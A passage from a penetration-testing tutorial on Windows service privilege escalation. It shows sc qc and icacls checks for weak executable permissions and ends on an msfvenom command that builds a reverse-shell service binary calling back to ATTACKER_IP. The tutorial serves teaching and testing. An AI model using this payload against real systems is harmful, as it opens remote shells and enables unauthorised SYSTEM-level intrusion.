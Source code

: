 # Windows Service Exploitation

Windows services often run with high privileges and can be exploited in various ways for privilege escalation. This document covers common techniques to identify and exploit vulnerable services.

## Understanding Windows Services

Services are managed by the Service Control Manager (SCM) and typically run with SYSTEM, LocalService, NetworkService, or custom service account privileges. Each service has:

- An executable path (BINARY_PATH_NAME)
- A service account (SERVICE_START_NAME)
- A Discretionary Access Control List (DACL) controlling who can modify the service

## Checking Service Configuration

```cmd
# Query service configuration
sc qc SERVICE_NAME

# Example
sc qc wuauserv
```

Key information to look for:
- BINARY_PATH_NAME: The path to the executable
- SERVICE_START_NAME: The account used to run the service

## Method 1: Insecure Permissions on Service Executable

If the service's executable has weak permissions allowing modification, we can replace it with a malicious executable.

### Identifying Vulnerable Services

```cmd
# Check service executable permissions
icacls "C:\path\to\service.exe"

# Look for permissions like:
# - BUILTIN\Users:(F) or (M) - Full control or Modify
# - Everyone:(F) or (M)
# - Authenticated Users:(F) or (M)
```

### Exploitation Steps

1. Generate a malicious executable:
   ```bash
   # On Kali Linux:
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o malicious.exe
   ```
